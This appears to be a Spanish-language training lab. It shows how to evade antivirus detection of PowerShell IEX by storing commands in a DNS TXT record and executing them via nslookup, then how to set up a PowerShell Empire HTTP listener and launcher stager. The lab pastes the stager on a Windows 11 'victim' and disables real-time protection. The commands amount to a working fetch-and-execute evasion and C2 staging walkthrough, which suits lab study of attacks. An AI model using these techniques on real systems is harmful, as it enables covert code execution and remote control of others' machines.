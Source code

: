 # Ocultar IEX para evadir al antivirus
 

Requisitos:
1. Máquina ***Router-Ubu***.
2. Máquina ***Kali Linux***.
3. Máquina ***Win 11***.

TODO. introducción

## Ejercicio 1: Hacer prueba de concepto con registro TXT.

Debemos sacar del dominio a la máquina ***Win 11***. Para ello, vamos a **Settings***, ***Accounts***, ***Access work or school*** y desconectamos al equipo del dominio.

Reiniciamos y volvemos aquí.

Debemos asegurar que el servidor DNS está correctamente configurado, tal y como aclara la imagen.

![8.8.8.8 Server](../img/lab-50-C/202209142058.png)

Para saltar la detección del antivirus, la instrucción ***IEX*** no debe aparecer en el payload. Para ello hacemos una prueba de concepto por medio de un registro ***TXT*** del ***DNS***.

La siguiente imagen muestra un registro TXT, llamado ***prueba***, que contiene un texto genérico en el servidor que lleva la zona ***antsala.xyz***.

![prueba TXT](../img/lab-50-C/202209142115.png)

Abrimos una terminal de ***Powershell***, y en ella escribimos.
```
nslookup -q=txt pruebadeconcepto.antsala.xyz
```

y obtenemos lo siguiente.
Nota: Solo nos interesa la última línea de la salida del comando.

![última línea](../img/lab-50-C/202209142117.png)

Estudia la siguiente imagen. Usando ***[]*** podemos elegir la línea que nos interesa de la salida, que es la última.
Nota: ***Non-authoritative answer*** for forma parte de la salida.

![Selección línea](../img/lab-50-C/202209142122.png)

Ahora nos fijamos en el siguiente registro TXT.

![Seleccionar varias líneas](../img/lab-50-C/202209142124.png)

Observa qué ocurre cuando hacemos la consulta.
```
(nslookup -q=txt ejecutaesto.antsala.xyz)[-1]
```

En la salida podemos observar que hemos "extraído" un ***comando***.

![extracción comando](../img/lab-50-C/202209142127.png)

Vamos a ver si podemos ejecutarlo.
```
& powershell . (nslookup -q=txt ejecutaesto.antsala.xyz)[-1]
```

***Notepad*** se abre. ¿Mágico verdad? Hemos conseguido ejecutar el comando que se almacena en un registro TXT de la zona DNS.

## Ejercicio 2: Actualizar PowerShell Empire.

En la máquina ***Kali*** abrimos una terminal y ejecutamos el siguiente comando para actualizar ***PowerShell Empire***.
```
sudo apt install powershell-empire
```

Cuando haya terminado la actualización iniciamos el servidor de ***PowerShell Empire***.
```
sudo powershell-empire server
```

El servidor se inicia, como podemos ver en la siguiente imagen.

![Server iniciado](../img/lab-50-C/202209150921.png)

Es es momento de iniciar el ***Cliente*** de ***PowerShell Empire***. En una nueva terminal, escribimos.
```
powershell-empire client
```

Ya tenemos el cliente iniciado.

![Cliente iniciado](../img/lab-50-C/202209150925.png)


## Ejercicio 3: Crear un Listener y un Stager

Vamos a crear un ***listener*** que estará a la espera de las conexiones de la víctima, que en ***PowerShell Empire*** recibe el nombre de ***agente***.
```
uselistener http
```

Aparecerá la configuración del listener, Como podrás ver, hay campos obligatorios (***required***), otros que no lo son. También se presentas campos con valores por defecto.

![Opciones del listener](../img/lab-50-C/202209150937.png)

Si revisamos la configuración, no tenemos valor para el parámetro ***Port***, que es el puerto al que conectará el ***agente*** cuando éste se inicie en la víctima. Ponemos el valor 9876.
```
set Port 9876
```

![Puerto configurado](../img/lab-50-C/202209150942.png)

Iniciamos el listener.
```
execute
```

El listener debe haberse iniciado.

![Listener iniciado](../img/lab-50-C/202209150944.png)

Vamos a usar un ***stager***, que como ya sabemos es el pequeño programa que realmente descargará en verdadero contenido malicioso en la víctima.

Tenemos una gran cantidad de ***stagers*** a nuestra disposición.

![stagers](../img/lab-50-C/202209150949.png)

Elegimos ***multi/launcher***.
```
usestager multi/launcher
```

Al seleccionar un ***stager*** aparecen sus opciones. Como puede observarse, el lenguaje en el que se generará es ***PowerShell***, sin embargo el campo ***Listener*** está vacío. Este campo se utiliza para indicar al ***Stager*** qué tipo de ***Listener*** se va a usar.

![Opciones del stager](../img/lab-50-C/202209150952.png)

Ponemos el tipo ***Listener***.
```
set Listener http
```

Ejecutamos para que se genere el ***Stager***.
```
execute
```

Como podemos observar en la siguiente imagen, se ha generado en ***PowerShell*** el código de nuestro ***Stager***.
Nota: Observa en la última línea que aparece un mensaje indicando que se ha copiado al portapapeles. Esto es útil porque generalmente desearemos guardar el ***Stager*** en un archivo.

![Código del Stager](../img/lab-50-C/202209151007.png)

Procedemos a probar el ***Stager*** (que ahora mismo está copiado en el portapapeles). En la máquina ***Win 11***, en la terminal de ***PowerShell***, ***pegamos*** el portapapeles. En la imagen puedes ver el resultado.

![Stager en la víctima](../img/lab-50-C/202209151014.png)

Solo queda pulsar ***Enter*** para simular la ejecucion del ***Stager*** en la víctima.

Como puedes ver, el antivirus ha hecho un buen trabajo detectando al ***Stager*** como malware.

![Malware detectado](../img/lab-50-C/202209151016.png)


Procecemos a desactivar el antivirus temporalmente para demostrar que el ***Stager*** puede contectarse correctamente al ***Listener.

En la máquina ***Win 11*** vamos a ***Windows Security*** / ***Virus & threat protection settings*** y hacemos clic en ***Manage settings***.

Desactivamos la protección en tiempo real, como se puede apreciar en la imagen.

![Real time protecction off](../img/lab-50-C/202209151021.png)




